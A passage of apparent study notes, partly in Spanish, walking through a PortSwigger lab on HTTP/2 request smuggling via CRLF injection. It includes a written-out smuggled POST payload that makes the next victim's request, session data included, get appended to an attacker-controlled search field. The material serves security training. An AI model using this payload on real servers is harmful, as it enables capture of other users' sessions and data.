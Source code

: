 El frontend se queda con el CL y coge todo el cuerpo.
El backend interpreta el TE como atributo de la request y se queda con el chunk final.
El resto del cuerpo, la petición POST, queda de prefijo. Como hemos puesto 800 de CL y el body son solo 12, el resto caracteres los coge de la siguiente request, que es la que hace la víctima y se añaden al texto de `search`.

![crlf5](images/crlf5.png)

>Note: enable the **Allow HTTP/2 ALPN override** option and change the body of HTTP/2 request to below POST request.  

```html
0

POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=HACKER-SESSION-COOKIE
Content-Length: 800

search=nutty
```  
  
![http2 smuggle via crlf inject](images/http2-smuggle-via-crlf-inject.png)  
  
[PortSwigger Lab: HTTP/2 request smuggling via CRLF injection](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection)  
  
[Youtube demo HTTP/2 request smuggling via CRLF injection](https://youtu.be/E-bnCGzl7Rk)  

### HTTP/2 TE desync v10a h2path
